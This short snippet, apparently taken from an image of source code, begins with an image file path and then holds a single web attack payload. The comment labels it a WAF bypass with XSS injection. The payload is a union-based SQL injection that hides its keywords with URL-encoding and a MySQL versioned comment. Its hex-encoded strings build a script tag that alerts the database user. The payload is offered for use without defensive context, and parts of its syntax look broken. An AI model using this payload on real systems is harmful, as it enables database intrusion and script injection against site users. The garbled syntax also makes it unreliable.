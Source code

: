 # column is number 4 bypass waf + inject to xss
1,2,3,%55nion(%53elect+1,2,3,/*!50000concat*/(0x3c7363726970743e616c657274607873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x7573756172696f3a3a,user(),0x603c2f7363726970743e) 5,6,7 +--+-
